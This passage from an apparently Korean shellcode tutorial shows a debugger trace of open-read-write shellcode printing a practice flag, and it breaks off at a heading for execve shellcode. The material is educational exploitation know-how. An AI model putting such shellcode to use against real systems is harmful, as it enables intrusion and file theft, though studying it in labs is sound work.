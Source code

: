     ──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────
       0x555555555152 <run_sh+41>    mov    rdx, 0x30
       0x555555555159 <run_sh+48>    mov    rax, 0
       0x555555555160 <run_sh+55>    syscall
       0x555555555162 <run_sh+57>    mov    rdi, 1
       0x555555555169 <run_sh+64>    mov    rax, 1
     ► 0x555555555170 <run_sh+71>    syscall  <SYS_write>
            fd: 0x1 (/dev/pts/11)
            buf: 0x7fffffffe2c8 ◂— 'flag{this_is_open_read_write_shellcode!}\n'
            n: 0x30
       0x555555555172 <run_sh+73>    xor    rdi, rdi
       0x555555555175 <run_sh+76>    mov    rax, 0x3c
       0x55555555517c <run_sh+83>    syscall
       0x55555555517e <main>         endbr64
       0x555555555182 <main+4>       push   rbp
    ...
    ```
    
    - `ni` 명령어로 실행하면, 데이터를 저장한 `0x7fffffffe2c8` 에서 48바이트를 출력
    
    ```nasm
    flag{this_is_open_read_write_shellcode!}
    ```
    

## execve 셸코드

---
